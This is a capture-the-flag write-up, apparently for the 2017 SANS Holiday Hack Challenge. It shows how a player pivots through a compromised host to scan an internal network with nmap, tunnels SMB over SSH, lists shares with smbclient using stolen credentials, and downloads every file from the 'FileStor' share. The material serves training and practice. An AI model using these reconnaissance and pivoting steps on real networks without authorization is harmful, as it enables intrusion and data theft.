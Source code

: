 * Question
   :PROPERTIES:
   :CUSTOM_ID: q3_question
   :END:

The North Pole engineering team uses a Windows SMB server for sharing
documentation and correspondence. Using your access to the Letters to
Santa server, identify and enumerate the SMB file-sharing server.
What is the file server share name?

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q3_background-information
   :END:

The scope statement calls out systems on 10.142.0.0/24 as being in scope:

#+BEGIN_QUOTE
SCOPE: For this entire challenge, you are authorized to attack ONLY
the Letters to Santa system at l2s.northpolechristmastown.com AND
other systems on the internal 10.142.0.0/24 network that you access
through the Letters to Santa system.
#+END_QUOTE

The question mentions pivoting through the Letters to Santa server (=l2s=). A commonly used tool for network discovery is =nmap=, and we can check that it's available on =l2s=:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.VmaV55tqZi5rteO9fXHB3kjM$ nmap -V

Nmap version 7.40 ( https://nmap.org )
Platform: x86_64-pc-linux-gnu
Compiled with: liblua-5.3.3 openssl-1.1.0c libpcre-8.39 libpcap-1.8.1 nmap-libdnet-1.12 ipv6
Compiled without:
Available nsock engines: epoll poll select
#+END_SRC

There's a great =nmap= overview available here: https://nmap.org/book/nmap-overview-and-demos.html

We also know that the SMB suite of protocols uses a lot of ports, but 445 is one of the main ones.

Blog Posts:

This post on the SANS Pen Testing Blog seems relevant, but masscan isn't installed on =l2s=:

- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q3_goal
   :END:

Three separate things:

1. Identify the SMB server,
2. Enumerate the shares on it,
3. Name the file server share.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q3_approach
   :END:

Let's follow the =nmap= overview.

#+BEGIN_QUOTE
Being the careful type, Felix first starts out with what is known as
an Nmap list scan (-sL option). This feature simply enumerates every
IP address in the given target netblock(s) and does a reverse-DNS
lookup (unless -n was specified) on each. One reason to do this first
is stealth. The names of the hosts can hint at potential
vulnerabilities and allow for a better understanding of the target
network, all without raising alarm bells.
#+END_QUOTE

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ nmap -sL 10.142.0.0/24

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-08 02:40 UTC
Nmap scan report for 10.142.0.0
Nmap scan report for 10.142.0.1
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Nmap scan report for 10.142.0.4
Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Nmap scan report for 10.142.0.9
Nmap scan report for 10.142.0.10
Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Nmap scan report for 10.142.0.12
Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Nmap scan report for 10.142.0.14
Nmap scan report for 10.142.0.15
...
#+END_SRC

Parsing the results a bit:

| Hostname             |          IP |
|----------------------+-------------|
| hhc17-l2s-proxy      |  10.142.0.2 |
| hhc17-apache-struts1 |  10.142.0.3 |
| mail                 |  10.142.0.5 |
| edb                  |  10.142.0.6 |
| hhc17-smb-server     |  10.142.0.7 |
| hhc17-emi            |  10.142.0.8 |
| hhc17-apache-struts2 | 10.142.0.11 |
| eaas                 | 10.142.0.13 |

One of the systems is named =hhc17-smb-server=. 

Continuing with the overview, we can now narrow in on a single IP:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ nmap -p- -PS445 -A -T4 -oA avatartcpscan-%D 10.142.0.7

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-08 02:51 UTC
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Host is up (0.00040s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-emi
| Not valid before: 2017-11-06T13:51:23
|_Not valid after:  2018-05-08T13:51:23
|_ssl-date: 2018-01-08T02:54:30+00:00; 0s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=hhc17-emi
| Subject Alternative Name: DNS:hhc17-emi
| Not valid before: 2017-11-07T13:52:11
|_Not valid after:  2018-11-07T13:52:11
|_ssl-date: 2018-01-08T02:54:30+00:00; 0s from scanner time.
49666/tcp open  msrpc              Microsoft Windows RPC
49668/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: HHC17-EMI, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:07 (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.99 seconds
#+END_SRC

So it does indeed seem to be an SMB server. A command-line tool to access it is =smbclient=:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ smbclient -L 10.142.0.7 -U alabaster_snowball
rbash: smbclient: command not found
#+END_SRC

It's not available on =l2s=. Another option is forwarding a port through SSH:

#+BEGIN_SRC
user@vps $ ssh alabaster_snowball@l2s.northpolechristmastown.com -O forward -L 4445:10.142.0.7:445
#+END_SRC

Now we can access port 445 on =hhc17-smb-server= via port 4445 on =localhost=:

#+BEGIN_SRC
user@vps $ smbclient -L localhost -p 4445 -U alabaster_snowball
WARNING: The "syslog" option is deprecated
Enter alabaster_snowball's password: 
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        FileStor        Disk
        IPC$            IPC       Remote IPC
Connection to localhost failed (Error NT_STATUS_CONNECTION_REFUSED)
NetBIOS over TCP disabled -- no workgroup available
#+END_SRC

=FileStor= looks interesting. Let's see what's on it:

#+BEGIN_SRC
user@vps $ smbclient //localhost/FileStor -p 4445 -U alabaster_snowball
WARNING: The "syslog" option is deprecated
Enter alabaster_snowball's password:
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]
smb: \> ls
  .                                   D        0  Wed Dec  6 16:51:46 2017
  ..                                  D        0  Wed Dec  6 16:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 16:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Mon Dec  4 14:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Mon Nov 27 14:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 16:47:28 2017
  Naughty and Nice List.csv           A    10245  Thu Nov 30 14:42:00 2017
  Naughty and Nice List.docx          A    60344  Wed Dec  6 16:51:25 2017

                13106687 blocks of size 4096. 9624115 blocks available
smb: \> mget *
getting file \BOLO - Munchkin Mole Report.docx of size 255520 as BOLO - Munchkin Mole Report.docx (1094.4 KiloBytes/sec) (average 1094.4 KiloBytes/sec)
getting file \GreatBookPage3.pdf of size 1275756 as GreatBookPage3.pdf (2818.7 KiloBytes/sec) (average 2231.9 KiloBytes/sec)
getting file \MEMO - Calculator Access for Wunorse.docx of size 111852 as MEMO - Calculator Access for Wunorse.docx (666.0 KiloBytes/sec) (average 1924.0 KiloBytes/sec)
getting file \MEMO - Password Policy Reminder.docx of size 133295 as MEMO - Password Policy Reminder.docx (834.4 KiloBytes/sec) (average 1752.3 KiloBytes/sec)
getting file \Naughty and Nice List.csv of size 10245 as Naughty and Nice List.csv (99.1 KiloBytes/sec) (average 1599.3 KiloBytes/sec)
getting file \Naughty and Nice List.docx of size 60344 as Naughty and Nice List.docx (390.3 KiloBytes/sec) (average 1452.3 KiloBytes/sec)
#+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q3_solution
   :END:

We used =nmap= to list our targets, and found =hhc17-smb-server=. We
used SSH forwarding to connect to it with =smbclient=. We used the
credentials we found for question 2 to connect.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q3_common-pitfalls
   :END:

It looks like =hhc17-smb-server= blocks pings. By default, =nmap= uses
pings to determine which hosts are up, and which it should scan
further. We used the "list scan," which just did reverse DNS queries,
and were able to identify the system quickly. If, however, someone
just tried to run =nmap -p 445 10.142.0.0/24=, they wouldn't find the system.

It also looked like two systems were mixed up in NetBIOS and RDP SSL cert names:

#+BEGIN_SRC 
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
...
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-emi
...
Host script results:
| nbstat: NetBIOS name: HHC17-EMI, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:07 (unknown)
...
Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
...
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-smb-server
...
Host script results:
| nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
#+END_SRC

